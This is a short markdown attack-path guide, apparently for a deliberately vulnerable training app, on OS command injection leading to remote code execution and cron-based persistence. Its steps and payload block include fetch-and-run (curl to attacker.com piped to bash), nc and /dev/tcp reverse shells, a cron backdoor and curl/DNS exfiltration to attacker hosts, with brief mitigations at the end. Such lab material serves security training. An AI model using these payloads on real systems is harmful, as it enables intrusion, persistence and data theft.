

# Attack Path 2: Command Injection → RCE → Persistence

## Overview
User-controlled input'tan OS command injection → RCE → cron/backdoor persistence.

## Mermaid Diagram


## Adım Adım Senaryo

1. **Test**: `/ping?host=127.0.0.1; ls` → extra output görürsen vulnerable.
2. **Exploit**: `; curl attacker.com/shell.sh | bash` veya direkt reverse shell.
3. **Shell'de**: `echo "* * * * * /bin/sh -i >& /dev/tcp/attacker/4444 0>&1" > /etc/cron.d/backdoor`
4. **Persistence sağla**.

## Vulnerable Endpoints
- `/vuln/cmdi/ping` - Ping command injection
- `/vuln/cmdi/nslookup` - NSLookup command injection

## Example Payloads
```bash
# Basic command chaining
127.0.0.1; id
127.0.0.1 | whoami
127.0.0.1 && cat /etc/passwd

# Reverse shell
127.0.0.1; nc -e /bin/sh attacker_ip 4444
127.0.0.1; bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Out-of-band data exfil
127.0.0.1; curl http://attacker.com/$(whoami)
127.0.0.1; ping -c 1 $(hostname).attacker.com
```

## Difficulty
**Medium**

## Mitigation
- Input validation with whitelist
- `subprocess.Popen` with `shell=False`
- Avoid user input in system commands
